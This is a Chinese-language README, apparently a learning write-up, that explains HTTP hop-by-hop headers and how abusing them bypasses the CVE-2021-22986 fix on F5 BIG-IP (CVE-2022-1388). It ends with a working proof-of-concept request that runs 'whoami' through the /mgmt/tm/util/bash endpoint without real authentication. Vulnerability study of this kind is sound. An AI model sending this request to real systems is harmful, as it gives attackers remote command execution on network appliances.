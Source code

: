 # README

## 前言

因为Java太菜了，所以更多的是复现漏洞和学习hop by hop了。

## hop by hop

需要首先知道hop by hop是什么。

hop-by-hop header 是一个 header，它被设计为由当前处理请求的代理处理和使用，而不是一个 end-to-end header，它被设计为一直存在于请求中到请求结束。

根据[RFC 2612](https://datatracker.ietf.org/doc/html/rfc2616#section-13.5.1)，HTTP/1.1 规范默认将以下标头视为逐跳：Keep-Alive、Transfer-Encoding、TE、Connection、Trailer、Upgrade、Proxy-Authorization和Proxy-Authenticate。当在请求中遇到这些标头时，代理服务器会处理这些标头所指示的任何内容，并且不会将其转发到下一个节点。

理解起来非常的简单，一个简单的例子就是：

```http
feng:123456
Connection:close
```

经过apache代理服务器代理到后端后，后端仍然可以得到feng这个http请求头的内容。

但如果这样：

```http
feng:123456
Connection:close,feng
```

这时候apache代理服务器会根据逐跳原则处理feng这个头并移除它。这时候后端就获得不到feng这个请求头。

## CVE-2021-22986的修复

CVE-2021-22986的利用需要传一个空的`X-F5-Auth-Token`头，官方修复的时候在apache httpd的auth的so进行了处理，要求`X-F5-Auth-Token`不为空。因此可以利用hop by hop，传一个任意值的`X-F5-Auth-Token`但是`Connection`中加上`X-F5-Auth-Token`，这样apache会把`X-F5-Auth-Token`移除，不影响绕过`Jetty`部分。



还有个另外的细节需要注意，就是Host的问题。这里直接放一下Y4er师傅的图：

![27.png](README.assets/27.png)

CVE-2021-22986之后代码进行了修改，这个`X-Forwarded-Host`感觉似乎是apache根据Host加上的。

如果host中没有localhost或者127.0.0.1的话就会对`Authorization`的password部分做鉴权了。当然或者`host`为127.4.2.1并且用户名为`f5hubblelcdadmin`。

代码中还有一种情况就是`X-Forwarded-Host`为null则也是不完全的健全，因此可以利用hop by hop让apache把`X-Forwarded-Host`头去除来实现host不是localhost。

## POC

```http
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Content-Type: application/json
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close,,X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token:feng
Content-Length: 43

{"command":"run","utilCmdArgs":"-c whoami"}
```



## 参考链接

https://y4er.com/post/from-hop-by-hop-to-cve-2022-1388/

https://paper.seebug.org/1893/#0x02-poc
